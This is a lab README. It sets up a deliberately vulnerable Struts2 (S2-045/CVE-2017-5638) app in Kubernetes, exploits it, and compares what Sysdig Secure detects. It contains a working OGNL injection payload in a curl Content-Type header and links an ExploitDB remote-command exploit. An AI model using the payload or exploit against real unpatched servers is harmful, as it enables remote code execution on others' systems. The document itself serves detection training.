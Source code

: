 # Vulnerable Struts2 (S2-045) Lab

In this lab, you will deployed a Vulnerable Struts2 workload (S2-045 / CVE-2017-5638) in Kubernetes.

1. **Confirm** you can reach the vulnerable app.  
2. **Exploit** it using a simple malicious payload.  
3. **Observe** detection events in Sysdig Secure.

----------

## 1. Access the Struts2 Application

-  Your environment can be deployed using the `setup_struts_deployment.sh` file and a pre-configured cluster hosting the Sysdig Detection Agent.  

-  The application will expose on **NodePort 30080**.  

-  Go to `http://localhost:30080` in a browser or use curl:
 
   curl -v http://localhost:30080

-  If properly configured - You should recieve a simple file upload form!

-----------

## 2. Exploit  

- **Trigger the RCE** by issuing and analyzing the output of: 

`curl -v -X POST -H "Content-Type: %{#context['com.opensymphony.xwork2.dispatcher.HttpServletResponse'].addHeader('vulhub',668.5*2)}.multipart/form-data" http://localhost:30080`

- Alternatively you may use ExploitDB's python exploit @ `https://www.exploit-db.com/exploits/41570`
  Usage: `python2 <script> <url> <command>`

-----------

## 3. **Detection**

- A clear distinction must be made here on how to detect this attack and the limitations posed with Run Time analysis.
- The curl command executes successfully returning 1337 in our custom header "vulhub"
- However, will not be picked up in **Sysdig** as no process was spawned, no file was accessed, and no network anomalies were detected.
- On the otherhand, the python script does yield a **Medium** severity in Sysdig.
- In Sysdig: Navigate to "**Threats**" -->  "**Sysdig Runtime Notable Events**" --> **Event ID: 18191e49f34866df273474732a500c25**
- In short, a header injection will not trigger in Sysdig but a new system process such as 'cat' will. 

